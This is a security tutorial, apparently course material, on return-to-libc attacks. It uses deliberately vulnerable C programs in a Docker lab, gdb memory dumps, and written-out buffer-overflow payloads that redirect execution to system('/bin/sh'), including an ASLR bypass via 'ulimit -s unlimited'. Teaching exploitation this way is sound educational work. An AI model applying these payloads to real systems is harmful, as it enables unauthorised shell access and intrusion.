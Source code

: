 # Return to `libc`

According to [4], a "return-to-libc" attack is a computer security attack usually starting with a buffer overflow in which a subroutine return address on a call stack is replaced by an address of a subroutine that is already present in the process’ executable memory, bypassing the NX bit feature (if present) and ridding the attacker of the need to inject their own code.

----

**Note**: as in previous tutorials, there's a docker container that facilitates reproducing the work of this tutorial. The container can be built with:
```bash
docker build -t basic_cybersecurity4:latest .
```
and runned with:
```bash
docker run --privileged -it basic_cybersecurity4:latest
```

----

### Finding a vulnerability, a simple overflow

We'll be using the following program named `rlibc1.c`:
```C
void not_called() {
    printf("Enjoy your shell!\n");
    system("/bin/bash");
}

void vulnerable_function(char* string) {
    char buffer[100];
    strcpy(buffer, string);
}

int main(int argc, char** argv) {
    vulnerable_function(argv[1]);
    return 0;
}
```

Let's a get a bit more of information about the program structure in memory:
(*compiled with `-fno-stack-protector -z execstack` flags*)

```
>>> disas vulnerable_function
Dump of assembler code for function vulnerable_function:
   0x0804849d <+0>:	push   %ebp
   0x0804849e <+1>:	mov    %esp,%ebp
   0x080484a0 <+3>:	sub    $0x88,%esp
   0x080484a6 <+9>:	mov    0x8(%ebp),%eax
   0x080484a9 <+12>:	mov    %eax,0x4(%esp)
   0x080484ad <+16>:	lea    -0x6c(%ebp),%eax
   0x080484b0 <+19>:	mov    %eax,(%esp)
   0x080484b3 <+22>:	call   0x8048330 <strcpy@plt>
   0x080484b8 <+27>:	leave  
   0x080484b9 <+28>:	ret    
End of assembler dump.
>>> p not_called
$1 = {void ()} 0x804847d <not_called>
>>>
```

right before the call to `strcpy@plt`, the stack and registers looks like:
```
─── Memory ───────────────────────────────────────────────────────────────────────────────
            address buffer  address string
0xffffd750 [6c d7 ff ff] [ba d9 ff ff] 01 00 00 00 38 d9 ff f7 l...........8...
                                                buffer
0xffffd760 00 00 00 00 00 00 00 00 00 00 00 00 [00 00 00 00 ................
0xffffd770 03 00 00 00 09 00 00 00 3f 00 c0 03 00 00 00 00 .... ...?.......
0xffffd780 34 d8 ff ff a8 d7 ff ff a0 d7 ff ff 69 82 04 08 4...........i...
0xffffd790 38 d9 ff f7 00 00 00 00 c2 00 00 00 56 ad eb f7 8...........V...
0xffffd7a0 ff ff ff ff ce d7 ff ff 34 0c e3 f7 f3 72 e5 f7 ........4 ...r..
0xffffd7b0 00 00 00 00 00 00 c3 00 01 00 00 00 fd 82 04 08 ................
0xffffd7c0 a2 d9 ff ff 2f 00 00 00 00 a0 04 08 32 85 04 08] ..../.......2...
                                    ebp           ret
0xffffd7d0 02 00 00 00 94 d8 ff ff [f8 d7 ff ff] [d3 84 04 08] ................
            string
0xffffd7e0 [ba d9 ff ff] 00 d0 ff f7 eb 84 04 08 00 10 fd f7 ................
0xffffd7f0 e0 84 04 08 00 00 00 00 00 00 00 00 f3 da e3 f7 ................
0xffffd800 02 00 00 00 94 d8 ff ff a0 d8 ff ff 6a ae fe f7 ............j...
0xffffd810 02 00 00 00 94 d8 ff ff 34 d8 ff ff 1c a0 04 08 ........4.......
0xffffd820 3c 82 04 08 00 10 fd f7 00 00 00 00 00 00 00 00 <...............
0xffffd830 00 00 00 00 cd fd 26 9d dd 99 23 a5 00 00 00 00 ......&...#.....
0xffffd840 00 00 00 00 00 00 00 00 02 00 00 00 80 83 04 08 ................
─── Registers ────────────────────────────────────────────────────────────────────────────
   eax 0xffffd76c        ecx 0xa52399dd        edx 0xffffd824        ebx 0xf7fd1000    
   esp 0xffffd74c        ebp 0xffffd7d8        esi 0x00000000        edi 0x00000000    
   eip 0x08048330     eflags [ PF SF IF ]       cs 0x00000023         ss 0x0000002b    
    ds 0x0000002b         es 0x0000002b         fs 0x00000000         gs 0x00000063    
```
A different representation of the stack available at [3] is:
```
higher  | <arguments2>        |
address | <return address>    |
        | <old %ebp>          | <= %ebp
        | <0x6c bytes of      |
        |       ...           |
        |       buffer>       |
        | <arguments1>        |
lower   | <address of buffer> | <= %esp
```
Note that the starting of the stack has get filled with the parameters for the call to `strcpy` (`arguments2`).

Launching `./rlibc1_noprotection "$(python -c 'print "A"*0x6c + "BBBB" + "\x7d\x84\x04\x08"')"` we obtain:
```bash
Enjoy your shell!
root@44522cd9481b:~#
```

Of course, this is with the stack protection disabled, when compiling the program without disabling this protections, the program just crashes and we can't perform the buffer overflow.

```bash
root@3bf52dad8e1d:~# ./rlibc1 "$(python -c 'print "A"*0x6c + "BBBB" + "\x7d\x84\x04\x08"')"
*** stack smashing detected ***: ./rlibc1 terminated
Aborted
```

### Playing with arguments

Let's play with a slightly different program named `rlibc2.c`:
```C
char* not_used = "/bin/sh";

void not_called() {
    printf("Not quite a shell...\n");
    system("/bin/date");
}

void vulnerable_function(char* string) {
    char buffer[100];
    strcpy(buffer, string);
}

int main(int argc, char** argv) {
    vulnerable_function(argv[1]);
    return 0;
}
```
We debug the program to obtain information about the `system` call and the `not_used` variable:
```
>>> disassemble not_called
Dump of assembler code for function not_called:
   0x0804847d <+0>:	push   %ebp
   0x0804847e <+1>:	mov    %esp,%ebp
   0x08048480 <+3>:	sub    $0x18,%esp
   0x08048483 <+6>:	movl   $0x8048578,(%esp)
   0x0804848a <+13>:	call   0x8048340 <puts@plt>
   0x0804848f <+18>:	movl   $0x804858d,(%esp)
   0x08048496 <+25>:	call   0x8048350 <system@plt>
   0x0804849b <+30>:	leave  
   0x0804849c <+31>:	ret    
End of assembler dump.
>>> p not_used
$5 = 0x8048570 "/bin/sh"
```
The idea behind the exploit is to overflow the buffer with the `strcpy` call and modify the return address to point to the
 `system` call address with apprlibcriate parameters (not the default ones which will call `/bin/date`). The stack should look like:

 ```
| 0x8048570 <not_used>             |
| 0x43434343 <fake return address> |
| 0x8048350 <address of system>    |
| 0x42424242 <fake old %ebp>       |
| 0x41414141 ...                   |
|   ... (0x6c bytes of 'A's)       |
|   ... 0x41414141                 |
 ```

```bash
root@3bf52dad8e1d:~# ./rlibc2_noprotection "$(python -c 'print "A"*0x6c + "BBBB" + "\x50\x83\x04\x08" + "CCCC" + "\x70\x85\x04\x08"')"
#
```

(*note, while debugging and playing with the overflow, the following command allows to exit normally `gdb --args ./rlibc2_noprotection "$(python -c 'print "A"*0x6c + "\x78\xd7\xff\xff" + "\x50\x83\x04\x08" + "\xd3\x84\x04\x08" + "\x70\x85\x04\x08"')"`.*)


### Return to `libc` attack

From [3], the trick is to realize that programs that use functions from a shared library, like `printf` from `libc`, will link the entire library into their address space at run time. This means that even if they never call system, the code for system (and every other function in `libc`) is accessible at runtime. We can see this fairly easy in gdb:

```
>>> p system
$1 = {<text variable, no debug info>} 0x555be310 <__libc_system>
>>> find 0x555be310, +99999999, "/bin/sh"
0x556e0d4c
warning: Unable to access 16000 bytes of target memory at 0x5572ef54, halting search.
1 pattern found.
```
Now from gdb:
```
gdb --args rlibc2_noprotection "$(python -c 'print "A"*0x6c + "BBBB" + "\x10\xe3\x5b\x55" + "CCCC" + "\x4c\x0d\x6e\x55"')"
```
we'll get a shell. This however does not happen when launched directly from the command line due to ASLR [5]. To bypass this:
```
ulimit -s unlimited # from[3], disable library randomization on 32-bit programs
./rlibc2_noprotection "$(python -c 'print "A"*0x6c + "BBBB" + "\x10\xe3\x5b\x55" + "CCCC" + "\x4c\x0d\x6e\x55"')"
```

### Resources

- [1] M. Hicks (2014), *Software Security*, Coursera, Cybersecurity Specialization, University of Maryland, College Park, <https://www.coursera.org/learn/software-security>.
- [2] Hovav Shacham (2007), *The geometry of innocent flesh on the bone: return-into-libc without function calls (on the x86)*. In Proceedings of the 14th ACM conference on Computer and communications security (CCS '07). ACM, New York, NY, USA, 552-561. DOI: https://doi.org/10.1145/1315245.1315313
- [3] Alex Reece (2013). *Introduction to return oriented programming (ROP)*. Retrieved from http://codearcana.com/posts/2013/05/28/introduction-to-return-oriented-programming-rop.html.
- [4] Wikipedia. *Return-to-libc attack*. Retrieved from https://en.wikipedia.org/wiki/Return-to-libc_attack.
- [5] Wikipedia. *Address space layout randomization*. Retrieved from https://en.wikipedia.org/wiki/Address_space_layout_randomization.
